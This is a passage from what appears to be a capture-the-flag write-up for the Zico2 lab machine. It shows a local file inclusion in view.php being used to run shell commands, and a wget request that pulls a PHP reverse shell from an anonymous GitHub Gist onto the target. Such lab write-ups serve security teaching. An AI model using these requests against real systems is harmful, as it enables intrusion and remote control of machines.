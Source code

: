 ![Now We're Getting Serious](/assets/images/posts/zico2-rce-db-create.png)

And now we can execute shell commands on the web from the gallery page using parameters like this.

```
http://192.168.0.110/view.php?page=../../../../../../usr/databases/cmd.php&cmd=ls%20-alh
```

![The Result](/assets/images/posts/zico2-rce-db-view.png)

I uploaded a PHP reverse shell script as a secret anonymous Gist on GitHub at this URL to connect to my machine's IP address.

```
https://gist.githubusercontent.com/anonymous/5cf1bb6324abcc8041c4f9e28d5f8424/raw/94a5905fca7a8a21ef4cda2cdc13e6511c7a2856/php-reverse-shell.php
```

I tried to download the PHP reverse shell script to Zico's machine using `wget` from the SQLite database I created earlier.

```
http://192.168.0.110/view.php?page=../../../../../../usr/databases/cmd.php&cmd=wget%20https://gist.githubusercontent.com/anonymous/5cf1bb6324abcc8041c4f9e28d5f8424/raw/94a5905fca7a8a21ef4cda2cdc13e6511c7a2856/php-reverse-shell.php
```
